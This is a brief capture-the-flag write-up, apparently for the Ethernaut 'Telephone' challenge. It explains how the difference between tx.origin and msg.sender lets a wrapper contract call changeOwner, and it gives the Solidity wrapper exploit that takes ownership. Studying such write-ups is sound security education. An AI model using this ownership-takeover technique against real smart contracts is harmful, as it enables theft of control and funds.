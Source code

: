 ### Analysis
If you directly call changeOwner then tx.origin == msg.sender. But by creating a wrapper contract to call changeOwner on your behalf, you set these two globals to different values: tx.origin is your address, because you initiated the overall sequence of transactions. msg.sender is the wrapper smart contract, because the wrapper is the one that directly calls changeOwner.

### The Exploit
call the function of changeTelephoneOwner after deployed.
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface Telephone{
    function changeOwner(address _owner) external;
}

contract TelephoneWrapper{
    function changeTelephoneOwner(address _telephone,address _owner) public{
        Telephone(_telephone).changeOwner(_owner);
    }
}
~~~